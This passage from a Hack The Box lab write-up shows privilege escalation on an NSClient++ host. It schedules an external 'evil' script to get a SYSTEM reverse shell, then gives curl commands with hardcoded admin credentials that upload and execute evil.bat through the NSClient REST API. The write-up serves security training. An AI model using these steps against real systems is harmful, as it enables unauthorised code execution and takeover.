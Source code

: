 Similarly, we need to add a new section to `/settings/scheduler/schedules/evil` and set the key to `command` and the value to our external script, `evil`.

{% include image.html image_alt="c2990793.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/c2990793.png" %}

Optionally, you can set the `interval` key and put in a low value (in seconds). I've put in 10 seconds.

{% include image.html image_alt="15d312dc.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/15d312dc.png" %}

Save the changes and all that's left is to wait for the reverse shell.

{% include image.html image_alt="5ea7dc7e.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/5ea7dc7e.png" %}

Getting `root.txt` is trivial with a SYSTEM shell.

{% include image.html image_alt="8cbb959a.png" image_src="/8109bc69-b023-4f06-9997-c6dd7da07f66/8cbb959a.png" %}

:dancer:

## Afterthought

I later found out that I don't need the Scheduler module to run a reverse shell back. Use the [API](https://docs.nsclient.org/api/rest/) to add an external script.

```
# curl -k -u "admin:ew2x6SsGTxjRwXOT" -XPUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary @evil.bat
```

Similarly, use the API to execute it.

```
# curl -k -u "admin:ew2x6SsGTxjRwXOT" https://127.0.0.1:8443/api/v1/queries/evil/commands/execute
```

[1]: https://www.hackthebox.eu/home/machines/profile/235
[2]: https://www.hackthebox.eu/home/users/profile/158833
[3]: https://www.hackthebox.eu/
